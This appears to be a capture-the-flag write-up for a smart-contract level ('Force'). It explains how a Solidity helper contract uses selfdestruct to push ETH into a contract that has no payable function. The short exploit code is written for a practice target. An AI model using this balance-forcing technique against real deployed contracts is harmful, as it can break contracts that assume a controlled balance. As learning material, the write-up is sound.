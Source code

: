 # Task :
Some contracts will simply not take your money ¯\_(ツ)_/¯

The goal of this level is to make the balance of the contract greater than zero.

# Solution :

There's really no way to bump up the balance of this contract since it is an empty contract with no sort of payable function

But, what we can do is,

Make another contract and create a function that calls "selfdestruct" on the Force contract 

That way whatever balance the contract had gets transferred to the force contract

So we send some ETH to the Kill contract

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

contract Kill {
  constructor() payable {}

  function killCat(address _forceContract) public {
    selfdestruct(payable (_forceContract));
  }
}
```